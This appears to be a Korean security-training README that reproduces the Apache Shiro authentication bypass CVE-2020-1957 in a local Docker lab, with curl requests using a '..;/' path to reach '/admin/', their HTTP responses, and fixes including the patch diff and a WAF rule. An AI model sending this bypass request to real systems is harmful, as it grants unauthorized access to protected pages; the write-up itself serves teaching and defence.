


# Apache Shiro 인증 우회 (CVE-2020-1957)

> 화이트햇스쿨 4기 - [이민혁 (@minhijk)](https://github.com/minhijk)


## 취약점 요약

Apache Shiro는 Java 애플리케이션을 위한 보안 프레임워크로 인증, 인가, 암호화, 세션 관리 기능을 제공한다.

Apache Shiro 1.5.2 이전 버전에서 Spring dynamic controllers와 함께 사용하는 경우, Shiro의 `AntPathMatcher`가 URI 경로를 정규화하지 않고 접근 제어 규칙과 비교하는 **코드 레벨 버그**가 존재한다. 따라서 공격자는 `..;/`를 포함한 경로를 이용해 인증을 우회하고 보호된 페이지에 접근할 수 있다.

| 항목 | 내용 |
|---|---|
| **CVE ID** | CVE-2020-1957 |
| **취약 버전** | Apache Shiro 1.5.2 미만 |
| **취약점 유형** | 인증 우회 (Authentication Bypass) |
| **CVSS v3.1** | 9.8 (Critical) |
| **CVSS 벡터** | AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H |
| **패치 버전** | Apache Shiro 1.5.2 |
| **공개일** | 2020-03-25 |


## 환경 구성

다음 명령어를 실행하여 Apache Shiro 1.5.1 기반의 취약한 환경을 구성할 수 있다.

```
docker compose up -d
```

환경이 구성되면 `http://localhost:8080`에서 홈 페이지를 확인할 수 있다.


## 취약 조건

| # | 조건 | 내용 |
|---|---|---|
| 1 | Apache Shiro 1.5.1 이하 | `AntPathMatcher`의 경로 정규화 버그가 존재하는 버전 |
| 2 | Spring dynamic controllers 사용 | Spring이 `..;/` 경로를 `/admin`으로 해석하여 라우팅 |
| 3 | `/admin/**` authc 필터 설정 | 보호 경로가 존재해야 우회 대상이 생김 |

취약 환경의 Shiro 필터 설정

```java
chainDefinition.addPathDefinition("/login.html", "authc");
chainDefinition.addPathDefinition("/logout", "logout");
chainDefinition.addPathDefinition("/admin/**", "authc");  // 우회 대상
```


## 재현 절차

**Step 1 — 정상 요청**

`/admin/`에 직접 접근하면 인증이 필요하므로 로그인 페이지로 리다이렉트된다.

```
curl -v http://localhost:8080/admin/
```

**Step 2 — 인증 우회**

`..;/`를 포함한 경로로 요청하면 Shiro가 `/admin/**` 규칙을 적용하지 못해 인증을 우회할 수 있다:

```
curl -v http://localhost:8080/xxx/..;/admin/
```


## PoC 코드

```bash
# 정상 요청 - HTTP 302 리다이렉트 확인
curl -v http://localhost:8080/admin/

# 공격 요청 - HTTP 200 응답으로 인증 우회 확인
curl -v http://localhost:8080/xxx/..;/admin/
```


## 실행 결과

**정상 요청 — HTTP 302 리다이렉트**

```
< HTTP/1.1 302
< Location: http://localhost:8080/login.html
```

[](1.png)

**공격 요청 — HTTP 200 인증 우회 성공**

```
< HTTP/1.1 200
```

[](2.png)


## 대응 방안

| 조치 | 방법 |
|---|---|
| **Shiro 버전 업그레이드** | Shiro 의존성을 `1.5.2` 이상으로 변경 |
| **WAF 규칙 추가** | `..;/` 패턴 포함 요청 차단 |

Shiro 1.5.2 패치 커밋에서 URI를 가져오는 방식이 변경되었다.
 
```java
// 패치 전 - 클라이언트가 보낸 URL을 날것 그대로 사용
uri = request.getRequestURI();
 
// 패치 후 - Tomcat이 정규화한 경로를 분리해서 재조합
uri = valueOrEmpty(request.getContextPath()) + "/" +
      valueOrEmpty(request.getServletPath()) +
      valueOrEmpty(request.getPathInfo());
```
 
`getRequestURI()`는 `/xxx/..;/admin/`을 그대로 반환해 `/admin/**` 규칙 매칭에 실패하지만, `getServletPath()`는 Tomcat이 이미 정규화한 경로(`/admin`)를 반환하므로 Shiro와 Spring이 동일한 경로를 해석하게 되어 우회가 불가능해진다.

- 패치 커밋: <https://github.com/apache/shiro/commit/3708d7907016bf2fa12691dff6ff0def1249b8ce>


## 참고 자료

- <https://nvd.nist.gov/vuln/detail/CVE-2020-1957>
- <https://shiro.apache.org/security-reports.html>


